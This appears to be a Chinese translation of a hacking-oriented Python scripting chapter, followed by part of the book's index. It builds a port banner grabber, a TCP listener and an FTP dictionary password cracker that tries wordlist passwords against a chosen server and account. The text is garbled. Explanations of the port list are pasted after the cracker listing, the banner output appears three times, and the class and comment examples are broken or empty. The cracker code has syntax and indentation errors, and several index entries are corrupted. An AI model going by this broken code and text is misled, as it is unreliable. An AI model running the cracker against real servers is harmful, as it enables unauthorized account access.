就像你在第 8 章编写 bash 脚本时所做一样，要执行脚本，需要在脚本名称前加上点和正斜杠。出于安全考虑，你的当前目录不在 `PATH` 变量，因此我们需要在脚本名称前加上 `./`，告诉系统在当前目录查找文件名并执行它。

运行这个特定的脚本，输入以下内容：

```bash
kali >./hackers-arise_greetings.py

Greetings to OccupyTheWeb from Hackers-Arise. The Best Place to Learn Hacking!
```

在 Python 中，每个变量类型都被视为一个类（`class`）。类是创建对象的模板。更多信息请参阅第 192 页的“面向对象编程 (OOP)”。在接下来的脚本中，我尝试演示了几种变量。变量可以包含不仅仅是字符串。列表 17-2 显示了一些包含不同数据类型的变量。

```python
#! /usr/bin/python3

HackersAriseStringVariable = "Hackers-Arise Is the Best Place to Learn Hacking"

HackersAriseIntegerVariable = 12

HackersAriseFloatingPointVariable = 3.14

HackersAriseList = [1, 2, 3, 4, 5, 6]

HackersAriseDictionary = {'name': 'OccupyTheWeb'}

print(HackersAriseStringVariable)

print(HackersAriseIntegerVariable)

print(HackersAriseFloatingPointVariable)
```

列表 17-2：包含不同数据类型的变量

### 注释

与任何其他编程和脚本语言一样，Python 拥有添加注释的能力。注释仅仅是你代码的一部分——单词、句子甚至段落——用来解释代码应该做什么。Python 会识别代码中的注释并忽略它们。虽然注释不是必须的，但对于你几年后重新回到代码前并忘记它应该做什么的情况来说，它们非常有帮助。程序员经常使用注释来解释某块代码的作用，或者解释选择特定编码方法背后的逻辑。

要编写多行注释，你可以在注释区域的开头和结尾使用三个双引号（`"""`）。

如如下脚本所示，我已经在简单的 `hackers-arise_greetings.py` 脚本中添加了一个简短的多行注释。

```python
#! /usr/bin/python3

"""

"""
```

当我们再次执行该脚本时，与上一次执行相比没有任何变化，如处所示：

```
kali >~/hackers-arise_greetings.py

Greetings to OccupyTheWeb from Hackers-Arise. The Best Place to Learn Hacking!
```

它的运行方式与列表 17-1 中的完全相同，但现在当我们以后回到代码时，就能获得一些关于该脚本的信息了。

### Functions

Python 中的函数是执行特定操作的代码段。例如，我们之前使用的 `print()` 语句就是一个函数，用于显示你传递给它的任何值。Python 有许多内置函数，你可以立即导入并使用。其中大多数函数在 Kali Linux 的默认 Python 安装中均可用，尽管从下载的库中还有更多可用。让我们来看看你可以使用的数千个可用函数中的几个：

- `exit()` 退出程序。
- `float()` 将其参数作为浮点数返回。例如，`float(1)` 返回 `1.0`。
- `help()` 显示由其参数指定的对象的帮助信息。
- `int()` 返回其参数的整数部分（截断）。
- `len()` 返回列表或字典中的元素个数。
- `max()` 返回其参数（列表）中的最大值。
- `open()` 按其参数指定的模式打开文件。
- `range()` 返回其参数指定的两个值之间的整数列表。
- `sorted()` 接收列表作为参数并返回一个按顺序排列元素的列表。
- `type()` 返回其参数的类型（例如，int、file、method、function）。

你也可以创建自己的函数来执行自定义任务。由于语言中已经内置了许多函数，因此在费力自己构建之前，检查是否已经存在该函数总是是值得的。其中一种方法是查看位于 https://docs.python.org 的官方 Python 文档。选择你正在使用的版本，然后选择“Library Reference（库引用）”。

### Lists

许多编程语言使用数组作为存储多个对象的方法。数组是值的列表，可以通过引用数组中特定值通过其在列表中的位置（称为索引）来检索、删除、替换或进行各种操作。要注意，Python 与许多其他编程环境一样，索引从 0 开始计数，列表中的第一个元素索引为 0，第二个是索引 1，第三个是索引 2，以此此类推。因此，如果我们想访问数组中的第三个值，可以通过 `array[2]` 实现。在 Python 中，数组有几种实现，但最常见的实现被称为列表（`lists`）。

Python 中的列表是迭代的，这意味着当你运行整个列表时，列表可以提供连续的元素（参见第 198 页的“Loops”部分）。这很有用，因为通常当我们使用列表时，是为了遍历它们以查找特定值、逐个打印值，或从一个列表获取值放入另一个列表中。

所以，假设我们需要显示列表 17-2 中 `HackerAriseList` 列表的第四个元素。我们可以通过调用列表名称 `HackerAriseList` 后方括号内要访问的元素索引来访问并打印该元素。

为了测试这一点，请在你的 `secondpython.py` 脚本底部添加以下行，以打印 `HackerAriseList` 中索引为 3 的元素：

```python
-- snip --
print (HackersAriseStringVariable)
print (HackersAriseIntegerVariable)
print (HackersAriseFloatingPointVariable)
print (HackersAriseList[3])
```

当我们再次运行此脚本时，可以看到新的 `print` 语句 4 与其他输出一起：

```
kali >./secondscript.py
Hackers-Arise Is the Best Place to Learn Hacking
12
3.1415
4
```

### Modules

模块只是保存到单独文件中的代码段，这样你就可以在程序中多次需要使用它，而无需重新输入。如果你想使用一个模块或模块中的任何代码，你需要导入它。正如之前讨论的，使用标准模块和第三方模块是让 Python 对黑客变得如此强大的关键特性之一。如果我们想使用之前安装的 `nmap` 模块，将在脚本中添加以下行：

```python
import nmap
```

在本章的稍后部分，我们将使用两个非常有用的模块：`socket` 和 `ftplib`。

### Object-Oriented Programming OOP

在深入研究 Python 之前，可能值得花几分钟讨论一下面向对象编程（OOP）的概念。Python 与今天大多数编程语言（如 C++、Java 和 Ruby 等）一样遵循 OOP 模型。

图 17-2 显示了 OOP 背后的基本概念：语言的主要工具是对象，它具有以属性和状态形式的形式，以及由对象执行或对对象执行的操作的方法。


OOP 的核心思想是创建像实物一样的对象。例如，汽车有颜色、品牌和型号等属性，以及驾驶、刹车和鸣鸣等方法。这种方法允许我们以更直观的方式模拟现实世界的实体。

在 Python 中，类（`class`）是对象的蓝图，而对象（`object`）是类的实例。

```python
class Car:
```


```python
def __init__(self, make, model, color):
    self.make = make
    self.model = model
    self.color = color

def drive(self):
    print(f"The {self.color} {self.make} {self.model} is driving.")

my_car = Car("Toyota", "Corolla", "red")
my_car.drive()
```

`self` 参数代表对象本身的实例。它允许代码访问特定实例的属性和方法。OOP 还支持继承，允许一个类继承另一个类的属性和方法。

```python
class ElectricCar(Car):
    def __init__(self, make, model, color, battery):
        super().__init__(make, model, color)
        self.battery = battery

    def charge(self):
        print(f"The {self.model} is charging.")

my_tesla = ElectricCar("Tesla", "Model 3", "white", "75kWh")
my_tesla.drive()
my_tesla.charge()
```

让我们运行此脚本来连接到另一个 Linux 系统（你可能使用 Ubuntu 系统，甚至是另一个 Kali 系统）的 22 端口。如果 SSH 在该端口上运行，我们应该能够将 banner（横幅）读取到我们的 `answer` 变量中并将其打印到服务器，如下所示：

```
kali >./HackersAlarmSSHBannerGrab.py
SSH-2.0-OpenSSH_7.3p1 Debian-1
```

我们刚刚创建了一个简单的 banner 抓取 Python 脚本！我们可以使用此脚本来查找该 IP 地址和端口运行着什么应用程序、版本和操作系统。这为黑客提供了攻击系统之前所需的关键信息。这本质上是 Shodan.io 网站对地球上几乎每个 IP 地址所做的事情，它分类并索引这些信息供我们搜索。

# 创建 TCP 监听器

我们刚刚创建了一个 TCP 客户端，它可以连接到另一个 TCP/IP 地址和端口，并监听正在传输的信息。该 `socket` 也可以用于创建一个 TCP 监听器，用于监听来自外部到你服务器的连接。让我们接下来尝试这样做。

在列表 17-4 所示的 Python 脚本中，你将在系统的任何端口上创建一个 `socket`，当有人连接到该 `socket` 时，它会收集有关连接者系统的关键信息。输入脚本并将其保存为 `tcp_server.py`。确保使用 `chmod` 赋予自己可执行权限。

```
#!/usr/bin/python3
import socket
TCP_IP = "192.168.181.190"
TCP_PORT = 6996
BUFFER_SIZE = 100
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind((TCP_IP, TCP_PORT))
```

```
s.listen (1)
conn, addr = s.accept()
print ('Connection address: ', addr )
while True:
    data=conn.recv(BUFFER_SIZE)
    if not data:break
    print("Received data: ", data)
    conn.send(data) #echo
conn.close()
```

列表 17-4: 一个 TCP 监听的 Python 脚本

我们声明希望使用 Python 解释器运行脚本，然后像以前一样导入 `socket` 模块，这样我们就可以使用它的功能。我们随后定义了变量来存储 TCP/IP 地址、要监听的端口以及我们想要从连接系统中捕获的数据缓冲区。

我们使用刚刚创建的变量定义 `socket` ② 并将其绑定到 IP 地址和端口 ③。我们告诉 `socket` 使用 `socket` 库中的 `listen()` 方法进行监听 ④。

我们使用 `socket` 库的 `accept` 方法获取连接系统的 IP 地址和端口，并将信息打印到屏幕上以便用户查看 ℓ。注意这里的 `while True:` 语法；我们将在本章后面的部分进行讨论，但现在只需知道它用于无限地运行其后的缩进代码，这意味着 Python 会一直检查数据，直到程序停止。

最后，我们将来自连接系统的信息放入缓冲区中，打印出来，然后关闭连接。

现在，转到网络上的另一台计算机并连接到脚本中指定的 6996 端口。运行 `tcp_server.py` 脚本，你应该能够连接并收集有关该系统的关键信息，包括连接系统的 IP 地址和端口，如下所示：

```
kali >./tcp_server.py
Connection Address: ('192.168.181.190', 45368)
Received data: Get /HTTP/1.1
Host:192.168.181.190:6996
User-Agent:Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko
--snip--
```

这是黑客在决定利用漏洞之前收集的关键信息。漏洞利用（或攻击）非常取决于特定的操作系统、应用程序，甚至所使用的语言，黑客在继续之前需要尽可能多地关于目标的信息。这种在攻击之前收集信息的行为通常被称为**侦察**（reconnaissance）。你刚刚开发了一个可以对潜在目标收集关键侦察信息的工具，它与流行的黑客工具 poF! 非常相似。

# 字典、循环和控制语句

让我们扩展你对 Python 的理解，然后使用你目前所学的所有知识来为 FTP 服务器构建一个密码破解器。

## 字典

字典以无序对的形式存储信息，每对包含一个键（key）和一个关联的值（value）。我们可以使用字典来存储项目列表，并为每个项目分配标签，这样我们就可以单独使用和引用该项目。我们可能会使用字典来存储例如用户 ID 及其关联的名称，或者存储与特定主机相关的已知漏洞。Python 中的字典作用类似于其他语言中的关联数组。

与列表一样，字典是可迭代的，这意味着我们使用 `for` 语句等控制结构来遍历整个字典，将字典的每个元素分配给变量，直到到达字典末尾。

除其他用途外，你可能会在构建密码破解器使用这种结构，破解器会遍历字典中存储的每个密码，直到某个密码有效或破解器到达字典结束。

创建字典的语法如下：

```
dict = {key1:value1, key2:value2, key3:value3...}
```

注意对于字典，你使用大括号并用逗号分隔项目。你可以包含任意数量的键值对。

## 控制语句

控制语句允许你的代码根据某些条件做出决策。在 Python 中有许多实现方式。

### if 语句

Python 中的 `if` 结构与其他语言一样，用于检查条件是否为真。例如，我们有如下代码片段：

```
if conditional expression
    run this code
```

### if...else

Python 中的 `if...else` 结构如下：

```
if conditional expression
    run this code when the condition is met
else
    run this code when the condition is not
```

如前所示，解释器首先检查表达式。如果结果为真，则执行缩进块。如果结果为假，则执行 `else` 语句。

例如，我们有如下检查用户 ID 值的代码片段；如果是 0（root 用户始终为 0），那么我们打印消息“你是 root 用户”。否则，如果是其他值，我们打印消息“你不是 root 用户”。

```
if userid == 0:
    print("You are the root user")
else:
    print("You are NOT the root user")
```

## 循环

循环是 Python 中非常有用的结构。循环允许程序员根据值或条件重复执行代码块。广泛使用的是 `while` 和 `for`。

### while 循环

`while` 循环评估布尔表达式（只能为真或假的表达式），并在表达式为真时继续执行。例如，我们可以创建一个打印从 1 到 10 的每个数字并退出循环的代码，如下：

```
count = 1
while (count <= 10):
    print(count)
    count += 1
```


缩缩进的控制块在条件为真期间一直运行。

# for 循环

`for`循环可以在每次循环时将来自列表、字符串、字典或其他迭代结构中的值分配给索引变量，允许我们逐个使用结构中的每个项。例如，我们可以使用循环尝试密码直到找到匹配项，如下：

```python
for password in passwords:
    attempt = connect(username, password)
    if attempt == "230":
        print("Password found: " + password)
        sys.exit(0)
```

现在我们已经对 Python 循环结构和条件语句有了更多的背景了解，让我们回到我们的横幅获取（banner-grabbing）脚本并添加一些功能。

我们将添加一个想要获取横幅的端口列表，而不仅仅是监听一个端口，然后使用`for`语句遍历该列表。这样，我们就可以搜索并获取多个端口的横幅并将其显示在屏幕上。

首先，让我们创建一个列表并在其中添加额外的端口。打开`HackersAriseSSHBannerGrab.py`，我们将从那里开始工作。列表 17-5 显示了完整的代码。注意，灰色显示的行保持不变；黑色的行是你需要更改或添加的。我们将尝试获取端口 21 (ftp)、22 (ssh)、25 (smtp) 和 3306 (mysql) 的横幅。

```python
# /usr/bin/python3
import socket
Ports = [21,22,25,3306]
for i in range(0,4):
    s = socket.socket()
    Port = Ports[i]
    print('This Is the Banner for the Port')
    print (Ports)
    s.connect(("192.168.1.101", Port))
    answer = s.recv(1024)
    s.close ()
```

列表 17-5: 改进横幅获取器

我们创建了一个名为`Ports`①的列表并添加了四个元素，每个元素代表一个端口。然后我们创建了一个`for`语句遍历该列表四次，因为它有四个项目➁。

记住，当你使用`for`循环时，与循环的代码必须在`for`语句下方缩进。

我们需要修改程序以反映在每次迭代中使用列表中的变量。为了做到这一点，我们创建了一个名为`Port`的变量，并在每次迭代中将其赋值为列表中的值➏。然后我们在连接➍中使用该变量。

当解释器运行该语句时，它将尝试连接到 IP 地址上分配给变量的任何端口。

现在，如果你在一个列出的端口已打开并启用的系统中运行此脚本，你应该看到类似列表 17-6 的内容。

```bash
kali ./HackersArisePortBannerGrab.py
This is the Banner for the Port
21
220 (vsFTPd 2.3.4)
This is the Banner for the Port
22
SSH-2.0-OpenSSH_4.7p1 Debian-Ubuntu
This is the Banner for the Port
25
220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
This is the Banner for the Port
3306
5.0.51a-3ubuntu5
```

# 列表 17-6: 端口横幅获取器的输出

注意，脚本发现端口 21 打开且运行着 vsFTPd 2.3.4，端口 22 打开且运行着 OpenSSH 4.7，端口 25 运行着 Postfix，端口 3306 运行着 MySQL 5.0.51。

我们刚刚用 Python 构建了一个多端口横幅获取工具来对目标系统进行侦察。该工具告诉我们端口上运行着什么服务以及该服务的版本！这是黑客在进行攻击之前需要的关键信息。

# 异常与密码破解器

你编写任何代码都可能面临错误或异常的风险。在编程术语中，异常是指任何中断代码正常流的现象——通常是由错误的代码或输入引起的错误。为了处理可能的错误，我们使用*异常处理*（exception handling），它简单来说就是处理特定问题、显示错误消息甚至使用异常进行决策的代码。在 Python 中，我们有`try/except`结构来处理这些错误或异常。

`try`块尝试执行代码，如果发生错误，`except`语句将处理该错误。在某些情况下，我们可以使用`try/except`结构进行决策，类似于`if...else`。例如，我们可以在密码破解器中使用`try/except`来尝试密码，如果由于密码不匹配而发生错误，则通过`except`语句移动到下一个密码。让我们尝试一下。

输入列表 17-7 中的代码并将其保存为`ftpcracker.py`；我们稍后会查看它。此脚本要求用户输入 FTP 服务器地址和他们想要破解的任何 FTP 账户的用户名。然后它读取一个包含可能密码列表的外部文本文件，并尝试每一个密码以破解 FTP 账户。脚本会一直执行，直到成功或用完密码。

```python
#! /usr/bin/python3
import ftplib
server = input("FTP Server: ")
user = input("username: ")
Passwordlist = input("Path to Password List > ")
try:
    with open(Passwordlist, 'r') as pw:
        for word in pw:
```

```python
word = word.strip('\r').strip('\n')
```

```python
try:
    ftp = ftplib.FTP(server)
    ftp.login(user, word)
    print (Success! The password is ' ' + word)
```

```python
except:
    print('still trying...')
except:
    print ('Wordlist error')
```

列表 17-7: FTP 密码破解器

我们创建了一个名为`Ports`①的列表并添加了四个元素，每个元素代表一个端口。然后我们创建了一个`for`语句遍历该列表四次，因为它有四个项目➁。记住当你使用`for`循环时，与循环的代码必须在`for`语句下方缩进。

我们需要修改程序以反映在每次迭代中使用列表中的变量。为了做到这一点，我们创建了一个名为`Port`的变量，并在每次迭代中将其赋值为列表中的值➏。然后我们在连接➍中使用该变量。当解释器运行该语句时，它将尝试连接到 IP 地址上分配给变量的任何端口。现在，如果你在一个列出的端口已打开并启用的系统中运行此脚本，你应该看到类似列表 17-6 的内容。

```bash
kali ./HackersArPortBannerGrab.py
This is the Banner for the Port
21
220 (vsFTPd 2.3.4)
This is the Banner for the Port
22
SSH-2.0-OpenSSH_4.7p1 Debian-Ubuntu
This is the Banner for the Port
25
220 metasploitable.localdomain ESMTP Postfix (Ubuntu)
This is the Banner for the Port
3306
5.0.51a-ubuntu5
```


# 列表 17-6: 端口横幅获取器的输出

注意脚本发现端口 `21` 打开且运行着 `vsFTPd 2.3.4`，端口 `22` 打开且运行着 `OpenSSH 4.7`，端口 `25` 运行着 `Postfix`，端口 `3306` 运行着 `MySQL 5.0.51`。我们刚刚用 Python 构建了一个多端口横幅获取工具来对目标系统进行侦察。该工具告诉我们端口上运行着什么服务以及该服务的版本！这是黑客在进行攻击之前需要的关键信息。

## 异常与密码破解器

你编写任何代码都可能面临错误或异常的风险。在编程术语中，异常是指任何中断代码正常流的现象——通常是由错误的代码或输入引起的错误。为了处理可能的错误，我们使用异常处理，它简单来说就是处理特定问题、显示错误消息甚至使用异常进行决策的代码。在 Python 中，我们有 `try/except` 结构来处理这些错误或异常。

`try` 块尝试执行代码，如果发生错误，`except` 语句将处理该错误。在某些情况下，我们可以使用 `try/except` 结构进行决策，类似于 `if...else`。例如，我们可以在密码破解器中使用 `try/except` 来尝试密码，如果由于密码不匹配而发生错误，则通过 `except` 语句移动到下一个密码。让我们尝试一下。

输入列表 17-7 中的代码并将其保存为 `ftpcracker.py`；我们稍后会查看它。此脚本要求用户输入 FTP 服务器地址和他们想要破解的任何 FTP 账户的用户名。然后它读取一个包含可能密码列表的外部文本文件，并尝试每一个密码以破解 FTP 账户。脚本会一直执行，直到成功或用完密码。

```python
#! /usr/bin/python3

import ftplib

server = input("FTP Server: ")

user = input("username: ")

Passwordlist = input("Path to Password List > ")

try:

    with open(Passwordlist, 'r') as pw:

        for word in pw:
```

```python
word = word.strip('\r').strip('\n')
```

```python
try:
    ftp = ftplib.FTP(server)
    ftp.login(user, word)
    print (Success! The password is ' ' + word)
```

```python
except:
    print('still trying...')
except:
    print ('Wordlist error')
```

列表 17-7: FTP 密码破解器

我们创建了一个名为 `Ports` ① 的列表并添加了四个元素，每个元素代表一个端口。然后我们创建了一个 `for` 语句遍历该列表四次，因为它有四个项目 ➁。记住当你使用 `for` 循环时，与循环的代码必须在 `for` 语句下方缩进。

我们需要修改程序以反映在每次迭代中使用列表中的变量。为了做到这一点，我们创建了一个名为 `Port` 的变量，并在每次迭代中将其赋值为列表中的值 ➏。然后我们在连接 ➍ 中使用该变量。当解释器运行该语句时，它将尝试连接到 IP 地址上分配给变量的任何端口。

现在，如果你在一个列出的端口已打开并启用的系统中运行此脚本，你应该看到类似列表 17-6 的内容。

```bash
kali ./HackersArisePortBannerGrab.py

This is the Banner for the Port

21

220 (vsFTPd 2.3.4)

This is the Banner for the Port

22

SSH-2.0-OpenSSH_4.7p1 Debian-Ubuntu

This is the Banner for the Port

25

220 metasploitable.localdomain ESMTP Postfix (Ubuntu)

This is the Banner for the Port

3306

5.0.51a-3ubuntu5
```


### 总结

要脱离“脚本小子”（script-kiddie）身份，黑客必须掌握一种脚本语言，Python 凭借其通用性和相对较小的学习曲线通常是一个很好的选择。大多数黑客工具是用 Python 编写的，包括 `sqlmap`、`scapy` 等许多其他。在这里，你学习了一些 Python 基础知识，可以用它们构建一些有用但简单的黑客工具，包括横幅获取器和 FTP 密码破解器。想要学习更多 Python，我强烈推荐 No Starch Press 出版的 Al Sweigart 写的优秀著作《Automate the Boring Stuff with Python》(2015)。

### 练习

通过完成以下练习来测试在本章中学到的技能：

- 1. 根据列表 17-5 构建 SSH 横幅获取工具，然后修改它以获取端口 21 的横幅。
- 2. 不要将 IP 地址硬编码在脚本中，修改你的横幅获取工具，使其提示用户输入 IP 地址。
- 3. 修改你的 `tcp_server.py` 以提示用户输入要监听的端口。
- 4. 构建列表 17-7 中的 FTPcracker，然后修改它以使用单词列表作为用户变量（类似于我们对密码所做的那），而不是提示用户输入。
- 5. 为横幅获取工具添加一个 `except` 子句，如果端口关闭则打印“no answer”。

# 索引

## 符号与数字

- `"""` (注释)字符, 190
- `#` (注释)字符, 83
- `#` (shebang) 字符, 82
- `-help` 命令, 8–9
- `-?` (帮助) 命令, 9
- `-h` (帮助) 命令, 8–9
- `.` (执行) 命令, 84, 90
- `..` (移动到上一级) 命令选项, 7
- `/` (前向) 命令, 25
- 32位/64位 CPU 类型, xxv
- `:` (返回真) 命令, 84, 90
- `[` (条件测试) 命令, 91

## A

- 访问 (access)。另见权限 (permissions)
- 网络, 31, 32
- 远程数据库, 132–133
- 受限制互联网, 148–149
- 访问列表 (access lists)。另见字典列表 (wordlists), 127
- 接入点 (AP), 31, 154, 155–156, 157
- 高级软件包管理工具 (`apt`), 40–44
- `aircrack` 套件, 9, 157–159
- `aireplay-ng` 命令, 159
- `airmon-ng` 命令, 157–158
- `airodump-ng` 命令, 158–159
- 匿名 (anonymity)
  - IP 地址跟踪, 140–141
  - 使用代理服务器, 143–148
  - 使用 Tor 网络, 141–143
  - 使用 VPN, 148–149
- Apache Web 服务器服务, 122–125
- `apt` (高级软件包管理工具), 40–44
- `apt-cache` 命令, 40
- `apt-get` 命令, 40–43
- 归档, 94–96, 115
- ARM 架构, xxvi
- 数组, 191
- `at` 守护进程, 69
- 自动挂载 (automount), 106

## B

- 后台进程, 68–69
- 备份调度任务, 176–177
- 坏块表 (bad blocks table), 108
- Banner 扫描 (banner-grabbing), 194–195, 199–201
- Banner (banners), 194
- `bash` (Bourne-again shell)
  - 常用命令, 90–91
  - 概述, 2, 4, 72, 82
- Bcast (广播地址), 30
- `bg` (后台) 命令, 90
- `/bin` 目录, 5, 76
- 二进制文件 (binaries)
  - 定义, 2
  - 在 Linux 文件系统中, 5
  - 搜索命令, 10
- BIND (伯克利互联网域名系统), 34
- 黑客, 86
- 块设备, 105–106
- 蓝牙 (Bluetooth), 159–164
  - 查看, 159–160
  - 扫描, 160–164
  - Bluetooth SIG 网站, 162
- BlueZ 协议栈, 160–161
- 引导程序 (bootloader), xxxiv
- `break` 命令, 90
- 广播地址 (broadcast address)
  - 更改, 32
  - 信息, 30
- B SSID (基本服务集标识符), 154, 158–159
- `bunzip2` 命令, 97
- Butler, Max “Max Vision”, 86–87
- `bzip2` 命令, 97

## C

- 大小敏感性, 2
- `cat` (连接) 命令, 13–14, 22, 167
- `cd` (切换目录) 命令, 7
- Wi-Fi 通道 (channels), 154, 158, 158–159
- 字符设备, 105
- `chgrp` (更改组) 命令, 51
- `chmod` (更改模式) 命令, 52–55, 56, 58
- `chown` (更改所有者) 命令, 50
- 类与子类, 193–194
- 命令目录, 76–77
- 命令行界面 (CLI), 2
- 注释字符, 83, 190
- `compress` (压缩) 命令, 97
- 压缩, 93–94, 96–97
- 连接 (concatenation), 13–14, 22, 67
- 配置文件, 5
- 连接方法 (`connect` method), 194–195
- `continue` 命令, 90
- 控制语句, 197–199
- 复制命令
  - 逐位, 98–99
  - 文件, 15
- `cp` (复制文件) 命令, 15
- CPU 类型, xxv
- `createuser` 命令, 137
- `cron` 守护进程, 174
- `cron` 表, 174–178
- `crond` 命令, 69, 174
- `crontab` 命令, 175–176

## D

- 守护进程 (daemons), 32, 69
- 暗网, 142
- 数据库。另见 MySQL 数据库
- 黑客攻击, 87, 130
- `db_status` 命令, 137
- `dd` 命令, 98–99
- Debian 发版, xxv
- 删除的文件复制, 98–99
- 拒绝服务 (DoS) 攻击, 31
- `describe` 命令, 134
- `/dev` 目录, 102–106
- 设备驱动程序, 作为攻击目标, 171
- `df` (磁盘空间) 命令, 107–108
- `dhclient` 命令, 33
- `dhcp` 守护进程, 32
- DHCP 发现 (discover), 33
- DHCP 服务器, 32–33, 35
- `dict` 语句, 197
- `dig` 命令, 33–34
- 目录 (directories)
  - 更改, 7
  - 创建, 15
  - 列表, 7–8, 51–52
  - 命名, 2
  - 和 PATH 变量, 76–77
  - 权限, 51–52
  - 当前工作, 6
  - 删除, 16
  - 搜索, 1–12
  - 磁盘空间, xxix, 107–108
- `dmesg` 命令, 171
- DNS (域名系统), 33–35

## E

- 窃听 (eavesdropping), 150, 166
- `echo` 命令, 35, 83, 90
- 加密, 150
- 使用 VPN 的加密, 149
- `env` (环境) 命令, 72
- 环境变量。另见 shell
  - 更改, 73–74
  - 命令目录, 76–77
  - 概念, 71–72
  - shell 提示符, 75–76
  - 用户定义, 77–78
  - 查看, 72–73
- 间谍活动, xxii, 141, 148
- ESSID (扩展服务标识符), 154, 158–159
- `/etc/apt/sources.list` 文件, 43
- `/etc/crontab` 文件, 174–176
- `/etc` 目录, 5
- `/etc/fstab` 文件, 107
- `/etc/hosts` 文件, 36
- `/etc/init.d/rc` 文件, 179
- `/etc/logrotate.conf` 文件, 115–117
- `/etc/proxychains.conf` 文件, 144
- `/etc/resolv.conf` 文件, 34–35
- `/etc/syslog.conf` 文件, 112–115
- `/etc/shadow` 文件, 57
- `/etc/sysctl.conf` 文件, 167,168
- `eth0` 接口, 30
- 道德黑客攻击, xxii–xxiii
- `eval` (求值) 命令, 90
- 异常处理, 201
- `exec` 命令, 90
- 执行权限, 55–56, 57–58, 83–84
- `exit` 命令, 90
- 漏洞, 196–197
- `export` 命令, 74, 75–76, 90

## F

- 磁盘工具, 104
- `-9` (后台) 命令, 68–69, 90
- 文件内容。另见文本
- 文件类型, 104–105
- 文件。另见日志文件
  - 归档, 94–96
  - 压缩, 96–97
  - 复制, 15, 97–98
  - 创建, 13–15
  - 列表, 7–8, 51–52
  - 移动, 15–16
  - 命名, 2
  - 所有权, 50–51
  - 删除, 16
  - 重命名, 15–16
  - 搜索, 10–12
- 文件系统 (filesystems)
  - Linux 结构, 4–5
  - 监控, 107–109
  - 导航, 6–8
  - 搜索, 9–12
  - 存储设备, 102–106, 107
  - 使用关键字过滤, 12–13, 22–23, 63–64, 73
- `find` 命令, 11–12, 59
- 闪存驱动, 104–105, 106
- `for` 循环, 199
- Wi-Fi 频率, 154
- `fsck` (文件系统检查) 命令, 108–109
- `ftplib` 模块, 201–202

## G

- `getopts` 命令, 91
- `git clone` 命令, 46–47
- `github`, 46
- Google 网络跟踪, 140
- 统一引导加载程序 (GRUB), xxx–xxv
- 灰帽客, 86–87
- `grep` 命令, 12–13, 22, 24, 63, 73
- GRUB (统一引导加载程序), xxx–xxv
- `gzip` 命令, 96–97

## H

- 恶意, 86–87
- 作为职业, xxi–xxiii
- 脚本编写技能, 183
- 硬盘分区, xxxii
- `hctconfig` 命令, 161
- `hcidump` 命令, 161
- `hcitool` 命令, 161–162
- `head` (查看文件) 命令, 20–21, 23
- 帮助命令, 8–9
- 隐藏文件开关, 8
- 日志文件大小, 73–74
- `HISTORYSIZE` (日志文件) 变量, 73
- 主目录, 2, 5
- HTML 代码, 124–125
- HTTP vs. MAC, xx–xxvi

## I

- IDE (集成开发环境), 187
- `if` 语句, 197–198
- `ifconfig` 命令, 29–30, 31–32, 154–155
- `else` 语句, 198
- `import` 语句, 192
- `index.html` 文件, 124–125
- `init` 守护进程, 179
- `insert` 模块, 169
- IP 转发, 168–169
- IP (协议) 地址
  - 更改, 29–30
  - 映射, 36
  - 新, 32–33
  - 脚本, 87–90
  - `iso` 文件扩展, xxx
  - 可迭代, 191
  - 命令, 91

## J

- 任务调度, 173–177

## K

- Kali 桌面, 30
- 下载的, xxv
- 安装, xx–xxvi
- 概念, 2
- 分布式, xx
- 内核 (kernel), 33–5
- 可加载内核模块 (LKMs)。另见内核模块, 166, 169–171
- 目标, 171
- 语句, 72
- `kill` 信号, 67–68
- `killall` 命令, 67–68

## L

- LAMP 工具
- `less` 命令, 25–26
- `/lib` 目录, 5
- 库, 5
- 挂载/卸载设备, 106–107
- `localhost` (回环地址), 30, 156
- `locate` 命令, 10
- 日志文件, 115–117
- 旋转, 117–118
- 日志系统
  - 概念, 11
  - 配置, 112–115
  - 禁用, 118
  - 当前, 6
- `loopback` (回环地址), 30
- 有损压缩 vs. 无损压缩, 94
- `ls` (列表) 命令, 7–8, 51–52
- `lsblk` (列出块) 命令, 105–106
- `lsmod` (列出模块) 命令, 19

## M

- MAC 地址
  - 显示,30, 156
  - 欺骗, 32
- 人间 { (MITM) 攻击, 166, 168
- `man` (手册页) 命令, 9, 23
- 管理模式, 155
- 手动页, 9
- 网络掩码 (network mask)
  - 更改, 32
  - 显示, 30
- 网络。另见 Wi-Fi 网络
  - 分析, 29–31
  - 修改信息, 31–33
- `nfnetlink` 模块, 169
- `nice` (进程优先级) 命令, 65–66

`nl` (行数) 命令, 22, 23
`nmap` (网络制图) 命令, 86, 87–88
`nmcli` (网络管理器命令行界面) 命令, 156

# 0

- 面向对象编程 (OOP), 192–194
对象, 193–194, 195
八进制数字, 53
`.onion` 地址, 142
洋葱路由系统 (Onion Router), 141–143
OOP. 参见面向向对象编程 (OOP)
开源， xxiv, xxv
OpenSSH 服务, 125–126

# P

- 数据包转发, 168–169
蓝牙配对, 160
分区
  - 定义, xxxii
  - 标签系统, 103–104
`passwd` 命令, 4
密码
  - 更改, 4
  - 破解, 31, 159, 201–203
  - root 用户, xxxii–xxxiii, 132–133
`PATH` 变量, 76–77
渗透测试, xxxii
权限, 49–59
  - 更改, 52–57
  - 检查, 51–52
  - 概念, 49–50
  - 授予, 50–51, 83–84
  - 特殊, 57–59

PID (进程 ID), 62, 63

`pip` (Pip 安装管理器) 管理器, 184–185

管道 (piping), 12–13

- 端口
  - Banner 抓取脚本, 199–201
  - 连接, 194–195
  - 扫描, 86–90

PostgreSQL (Postgres) 数据库, 135–137
`postgresql` 服务, 136–137

电源 (PWR) 和 Wi-Fi, 154, 158, 158–159

- 优先级
  - 消息日志, 114–115
  - 进程, 64–66

权限提升, 58

`/proc/version` 文件, 167

进程 ID (PID), 62, 63

- 进程, 61–69
  - 后台与前台, 68–69
  - 概念, 61–62
  - 相关信息, 12–13, 62–64
  - 杀死, 66–68
  - 管理优先级, 64–66
  - 调度, 69

`.profile` 文件, 57

混杂模式 (promiscuous mode), 31

ProtonMail, 150
代理服务器, 143–148
  - 选择, 148
  - 概念, 143–144
  - 设置, 144–148

`proxychats` 命令, 143–148
`ps` (进程) 命令, 12–13, 62–63
`ps1` (shell 提示符) 变量, 75–76
PSK (预共享密钥), 154

`pwd` (当前工作目录) 命令, 68
Python 语言
  - 注释, 190
  - 函数, 190–191
  - 安装, 184–186
  - 学习, 183–184, 187, 203
  - 列表, 191–192
  - 模块, 192
  - 变量, 187–190

